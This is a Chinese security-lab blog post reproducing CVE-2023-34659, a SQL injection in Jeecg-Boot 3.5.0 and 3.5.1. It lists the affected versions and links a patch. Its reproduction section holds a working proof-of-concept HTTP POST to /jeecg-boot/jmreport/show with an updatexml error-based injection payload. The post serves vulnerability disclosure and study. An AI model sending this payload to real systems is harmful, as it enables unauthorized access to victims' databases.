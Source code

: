 #  Jeecg-Boot SQL注入漏洞(CVE-2023-34659)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#CVE 34 个

#网络安全 42 个

#POC 15 个

#漏洞 55 个

#复现 29 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](https://gitee.com/fuli009/images/raw/master/public/20230715090934.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](https://gitee.com/fuli009/images/raw/master/public/20230715090934.png)  
 **0x01漏洞介绍**  
  

Jeecg-Boot是JeecgBoot社区的一款基于代码生成器的低代码平台。

jeecg-boot 3.5.0和3.5.1 版本存在安全漏洞，该漏洞源于 /jeecg-boot/jmreport/show 接口的 id
参数存在SQL注入漏洞。

![](https://gitee.com/fuli009/images/raw/master/public/20230715090934.png)  
 **0x02影响版本**  
  

     jeecg-boot 3.5.1 

     jeecg-boot 3.5.0

![](https://gitee.com/fuli009/images/raw/master/public/20230715090950.png)

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230715090934.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![](https://gitee.com/fuli009/images/raw/master/public/20230715090952.png)

2.对漏洞进行复现

 **Poc  **

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /jeecg-boot/jmreport/show HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36Connection: closeContent-Length: 147Content-Type: application/json;charset=UTF-8Accept-Encoding: gzip  
    {  "id": "961455b47c0b86dc961e90b5893bff05",  "apiUrl": "",  "params": {    "id ": "1 ' or ' % 1 % ' like (updatexml(0x3a,concat(1,(version())),1)) or ' % % ' like '"  }}

复现请求

![](https://gitee.com/fuli009/images/raw/master/public/20230715090953.png)

3.nuclei工具测试（漏洞不存在）

![](https://gitee.com/fuli009/images/raw/master/public/20230715090954.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20230715090934.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://github.com/jeecgboot/jeecg-boot/issues/4976

  

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](https://gitee.com/fuli009/images/raw/master/public/20230715090957.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](https://gitee.com/fuli009/images/raw/master/public/20230715090958.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

